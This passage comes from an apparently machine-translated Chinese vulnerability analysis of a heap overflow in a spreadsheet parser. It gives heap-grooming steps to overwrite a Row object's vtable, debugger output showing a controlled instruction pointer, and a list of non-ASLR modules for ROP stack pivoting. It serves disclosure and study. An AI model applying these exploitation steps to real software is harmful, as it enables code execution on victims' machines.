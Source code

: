 这使攻击定位在最佳情况下，以覆盖在进程时间线内较早分配的对象。以下步骤可用于定位在Row对象的前面TxO缓冲区，以覆盖其vtable。



```
*使用TxO记录使大小为0x18的分配与Row对象处于同一个竞争场。
    *溢出TxO记录以覆盖FreeEntryOffset。
    *分配Row对象。这将强制覆盖的FreeEntryOffset加载到内存段中。
    *分配相同大小的另一个TxO记录，它将位于Row对象的前面。
    *将TxO记录溢出到包含Row对象的块中，以便控制其vtable。
```

发生这种情况后，解析最后一个EOF记录将导致Row对象的vtable可被取值，以便为Row对象调用析构函数。



```
0：000&gt; r
    eax = deadbeeb ebx = ffffffff ecx = 045d7d88 edx = 0000ffff esi = 00127040 edi = 00000000
    eip = 3f7205c7 esp = 00126fdc ebp = 00127028 iopl = 0 nv up ei pl nz na po nc
    cs = 001b ss = 0023 ds = 0023 es = 0023 fs = 003b gs = 0000 efl = 00010202
    JCXCALC！JCXCCALC_Jsfc_ExConvert + 0x9c40b：
    3f7205c7 ff5004 call dword ptr [eax + 4] ds：0023：deadbeef =
    0：000&gt; .logclose
    0：000&gt; dc ecx
    045d7d88 deadbeeb 64646464 64646464 64646464 dddddddddddddddd
    045d7d98 64646464 64646464 64646464 64646464 dddddddddddddddd
    045d7da8 64646464 64646464 64646464 64646464 dddddddddddddddd
    045d7db8 64646464 64646464 64646464 64646464 dddddddddddddddd
    045d7dc8 64646464 64646464 64646464 64646464 dddddddddddddddd
    045d7dd8 64646464 64646464 64646464 64646464 dddddddddddddddd
    045d7de8 64646464 64646464 64646464 64646464 dddddddddddddddd
    045d7df8 64646464 64646464 64646464 64646464 dddddddddddddddd
```

攻击者现在正在控制一个被调用的函数指针。

<br>

**代码执行**

看看崩溃的情况，攻击者控制一个被调用的指针，ecx的内容指向一个攻击者控制的缓冲区。为了实现代码执行，必须进行ROP gadget搜索以寻找stack pivot。目标是攻击者控制EIP并使堆栈指向攻击者控制的数据。幸运的是，以下模块在进程空间中，不受ASLR影响。



```
0：000&gt;！py mona mod -cm aslr = false
--------------------------------------------------
模块信息：
--------------------------------------------------
基地址|| 大小| ASLR | 模块名，路径
--------------------------------------------------
0x5f800000 || 0x000b1000 | False | [JSFC.DLL]
0x026b0000 || 0x00007000 | False | [jsvdex.dll]
0x27080000 || 0x000e1000 | False | [JSCTRL.DLL]
0x3f680000 || 0x00103000 | False | [JCXCALC.DLL]
0x22150000 || 0x00018000 | False | [JSMACROS.DLL]
0x003b0000 || 0x00008000 | False | [JSCRT40.dll]
0x61000000 || 0x0013b000 | False | [JSAPRUN.DLL]
0x3c7c0000 || 0x01611000 | False | [T26com.DLL]
0x23c60000 || 0x00024000 | False | [JSDFMT.dll]
0x03ad0000 || 0x0000b000 | False | [JSTqFTbl.dll]
0x40030000 || 0x0002c000 | False | [JSFMLE.dll]
0x21480000 || 0x00082000 | False | [jsgci.dll]
0x02430000 || 0x00008000 | False | [JSSPLEX.DLL]
0x43ab 0000 || 0x003af000 | False | [T26STAT.DLL]
0x217b0000 || 0x0001b000 | False | [JSDOC.dll]
0x22380000 || 0x0007a000 | False | [JSFORM.OCX]
0x211a0000 || 0x00049000 | False | [JSTDLIB.DLL]
0x21e50000 || 0x0002c000 | False | [JSPRMN.dll]
```